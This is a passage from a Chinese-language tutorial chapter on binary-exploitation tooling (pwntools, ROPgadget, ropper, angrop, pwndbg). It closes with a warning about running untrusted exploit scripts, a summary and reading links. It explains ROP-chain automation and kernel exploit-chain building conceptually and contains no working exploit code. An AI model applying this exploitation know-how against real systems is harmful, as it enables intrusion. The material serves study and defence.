在堆相关调试场景中，pwndbg 等插件的可视化能力（chunk 布局、tcache 链表）能帮助开发者在修改分配器相关代码后快速确认没有引入 UAF/double-free，这类调试同样依赖对底层结构的准确理解，参见 [[24.内存管理与堆分配器/06.ptmalloc2的chunk结构]]、[[24.内存管理与堆分配器/08.tcache机制]]。angrop 之类的自动建链工具目前也已经能够作用于内核态代码（用于构造容器逃逸一类的内核利用链），说明这套"gadget 搜索 + 自动组链"的方法论并不局限于用户态，内核侧的利用与防御体系见 [[52.Linux内核机制与内核利用/00.Linux内核机制与内核利用总览]]；`ROP.call()` 的参数摆放本质上是在满足调用规约，理解这一点离不开 [[22.调用规约/06.SystemV_AMD64调用规约]] 的基础知识。

### 容易被忽视的"元安全"问题：执行陌生 exploit 脚本的风险

pwntools 脚本本身是完整的 Python 程序，具备执行任意系统调用、发起任意网络连接的能力。CTF write-up、公开 exploit 仓库中经常出现"直接下载别人写好的 `exploit.py` 就跑"的场景，这本质上等同于执行一段来路不明的代码——脚本完全可能在正常完成"攻击目标"的同时，顺手做一些与题目无关的事情（回连、读取本机敏感文件等）。在运行任何非自己编写的利用脚本前，快速通读一遍代码逻辑、在隔离的容器或虚拟机而非物理机/带敏感数据的开发机上执行，应当被视为与"理解漏洞原理"同等重要的基本操作纪律；下载来源不明的 Docker 镜像作为 pwn 环境时同样适用这一原则。

## 小结

1. **pwntools 的价值在于分层抽象而非零散函数**：字节操作、tubes 连接、ELF/context 解析、自动化层、调试联动五层叠加，让脚本描述"意图"而非"字节细节"，`process`/`remote` 共享同一套接口是"本地开发、无缝切远程"的工程基础。
2. **gadget 大量存在的根因是变长指令集的非对齐反汇编**，这决定了 ROPgadget"从终止指令回溯固定窗口暴力枚举"的算法为何在 x86/x64 上高效、在 ARM/MIPS 上收效有限。
3. **ROPgadget/ropper/angrop 代表三条不同精细度的算法路线**：文本模式匹配求快，Z3+VEX 语义约束求准，符号执行+图搜索求全自动——没有绝对更优的一个，工程上按"侦察→精确验证→自动兜底"分阶段组合使用。
4. **pwntools 的 `ROP()` 自动化有明确边界**：常规 `pop reg; ret` 搜不到时会退化到 `__libc_csu_init` 通用 gadget或需要手工介入 `SigreturnFrame`，工具自动化的止步之处正是原理篇（第 7、12 章）发挥作用的地方。
5. **环境搭建要对症下药**：版本不匹配用 `pwninit`/`patchelf`，版本未知用 `glibc-all-in-one`/`pwnlib.libcdb`(libc.rip)，架构不同用 `qemu-user`+`gdb-multiarch`；`socat` 模拟远程服务是验证"本地行为=远程行为"常被忽略但很关键的一步。
6. **工具链的防御性用法同样重要**：把 gadget 密度扫描、checksec 纳入 CI 回归，是量化评估"这次改动是否放大攻击面"的低成本手段。
7. **执行陌生人写的 exploit 脚本是一种代码执行风险**，应当在隔离环境中运行并事先审查，这是工具链视角下容易被忽视的"元安全"实践。

## 相关阅读

- [[06.ROP入门]] — gadget 与 ROP 链的基础原理，理解自动化组链依据什么
- [[07.ROP进阶：ret2csu与通用gadget]] — `ROP()` 在 gadget 匮乏时的自动退化目标
- [[05.ret2libc]] — `libc.address` 批量重定位所服务的经典场景
- [[09.格式化字符串漏洞]] — `fmtstr_payload` 自动化背后的漏洞原理
- [[12.SROP信号帧伪造]] — `SigreturnFrame` 手工兜底所对应的原理篇
- [[16.GOT劫持与ret2dlresolve]] — `elf.got`/`elf.plt` 解析所服务的利用场景
- [[18.one_gadget与magic_gadget]] — 与本章工具链衔接的另一常用自动化工具
- [[21.ARM64与MIPS架构利用差异]] — gadget 密度架构差异与 qemu-user 跨架构调试的原理延伸
- [[11.ELF文件详解/17.got节]] — GOT/PLT 结构详解
- [[22.调用规约/06.SystemV_AMD64调用规约]] — `ROP.call()` 参数到寄存器映射的规约基础
- [[24.内存管理与堆分配器/06.ptmalloc2的chunk结构]] — pwndbg 堆可视化调试的结构基础
- [[24.内存管理与堆分配器/08.tcache机制]] — pwndbg `bins`/`tcache` 命令对应的机制
- [[24.内存管理与堆分配器/17.堆利用手法体系House_of系列]] — 工具链在复杂堆利用调试中的实战场景
- [[34.现代二进制防护机制/00.现代二进制防护机制总览]] — gadget 密度与 CET/RELRO 等防护机制的对偶关系
- [[52.Linux内核机制与内核利用/00.Linux内核机制与内核利用总览]] — angrop 等工具向内核态利用的延伸
- pwntools 官方文档（docs.pwntools.com）与源码仓库 `Gallopsled/pwntools`
- ROPgadget 源码仓库 `JonathanSalwan/ROPgadget`；ropper 源码仓库 `sashs/Ropper`；angrop 源码仓库 `angr/angrop`
- [[00.二进制漏洞与利用基础总览]] — 本系列导航

[[00.二进制漏洞与利用基础总览|⬆ 系列总览]] | [[21.ARM64与MIPS架构利用差异|← 上一章]]
